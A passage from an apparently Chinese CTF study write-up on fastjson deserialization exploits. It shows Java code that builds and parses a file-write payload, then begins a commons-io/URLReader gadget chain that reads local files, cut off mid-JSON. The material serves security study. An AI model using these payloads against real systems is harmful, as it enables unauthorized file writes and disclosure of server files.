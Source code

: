 ```java
                "                  \"charsetName\": \"UTF-8\",\n" +
                "                  \"bytes\":" +"%3$s\n" +
                "                }],\n" +
                "  \"x\":{\"$ref\":\"$.bOM\"}\n" +
                "}",base64_so_content, "C:/Users/bmth/Desktop/作业/CTF学习/java学习/fastjson/src/main/java/exp/Blackhat2021/3.txt", Arrays.toString(big_bom_buffer_bytes));
        System.out.println(payload);
        JSON.parse(payload);
    }

    public static byte[] readFileInBytesToString(String filePath) {
        final int readArraySizePerRead = 4096;
        File file = new File(filePath);
        ArrayList<Byte> bytes = new ArrayList<>();
        try {
            if (file.exists()) {
                DataInputStream isr = new DataInputStream(new FileInputStream(file));
                byte[] tempchars = new byte[readArraySizePerRead];
                int charsReadCount = 0;

                while ((charsReadCount = isr.read(tempchars)) != -1) {
                    for(int i = 0 ; i < charsReadCount ; i++){
                        bytes.add (tempchars[i]);
                    }
                }
                isr.close();
            }
        } catch (IOException e) {
            // TODO Auto-generated catch block
            e.printStackTrace();
        }

        return toPrimitives(bytes.toArray(new Byte[0]));
    }

    static byte[] toPrimitives(Byte[] oBytes) {
        byte[] bytes = new byte[oBytes.length];

        for (int i = 0; i < oBytes.length; i++) {
            bytes[i] = oBytes[i];
        }
        return bytes;
    }
}
```
测试发现写入的文件存在问题，只能写入8kb的数据，导致文件不是一个完整的jar包
![](https://img-blog.csdnimg.cn/ac1b42c128bf4cca9b08a336735d35ef.png)

仅提供一个思路

### commons-io读文件
前提是存在数据的回显，比如return 反序列化后的数据
```json
{
    "abc": {
        "@type": "java.lang.AutoCloseable",
        "@type": "org.apache.commons.io.input.BOMInputStream",
        "delegate": {
            "@type": "org.apache.commons.io.input.ReaderInputStream",
            "reader": {
                "@type": "jdk.nashorn.api.scripting.URLReader",
                "url": "file:///C:/Users/bmth/Desktop/作业/CTF学习/java学习/fastjson/src/main/java/exp/Blackhat2021/1.txt"
```